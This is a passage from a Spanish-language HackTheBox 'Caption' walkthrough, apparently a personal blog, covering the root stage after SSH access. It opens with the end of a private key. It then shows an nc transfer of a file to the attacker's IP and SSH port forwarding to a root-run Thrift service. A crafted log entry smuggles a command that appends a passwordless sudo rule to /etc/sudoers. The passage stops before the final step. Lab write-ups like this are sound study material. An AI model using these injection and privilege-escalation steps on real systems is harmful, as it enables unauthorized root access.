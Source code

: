 ```bash
Zpid9tR/6oub8Y3Jh3cAAAAAAQIDBAUGBwg=
-----END OPENSSH PRIVATE KEY-----

```

y ya estaria
lo demas norma
el chmod 600 y para dentro
## root

ejecutamos un linpheass
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/caption/Pasted-image-20250103215453.png)

vemos lo siguiente. un escript go que levanta el puerto 9090 con un servidor thrift
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/caption/Pasted-image-20250103222356.png)



como vemos es root el que lo esta ejecutando 

para poder comunicarnos necesitamos tener nuestro propio servidor thrift

para ello vamos a hacer lo siguinet en la maquina victima
```bash
 git clone http://caption.htb:8080/git/root/Logservice.git
```

entramos y ejecutamos el siguiente comando para establecer la conexion
```bash
thrift --gen py log_service.thrift
```
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/caption/Pasted-image-20250103223110.png)

y ahora ese archivo nos lo pasamos a nuestra mquina local de la siguiente forma

```bash
#maquina victima 
nc -q 0 10.10.14.181 4321 < log_service.thrift
#maquina atacanete 
nc -lnvp 4321 > log_service.thrift
```

una vez con el archivo nos hacemos que el puerto 9090 sea el de la maqina

```bash
ssh -i margo.key -L 9090:127.0.0.1:9090 margo@10.10.11.33 
```

ahora devemos crear en la mquina victima un log maligno:

```bash
`127.0.0.1, "user-agent":"Mozilla'; echo 'margo ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers;#"`
```

lo dejamos en /tmp por ejemplo

ahora en nuestra maquina  ejecutamos el siguiente comando
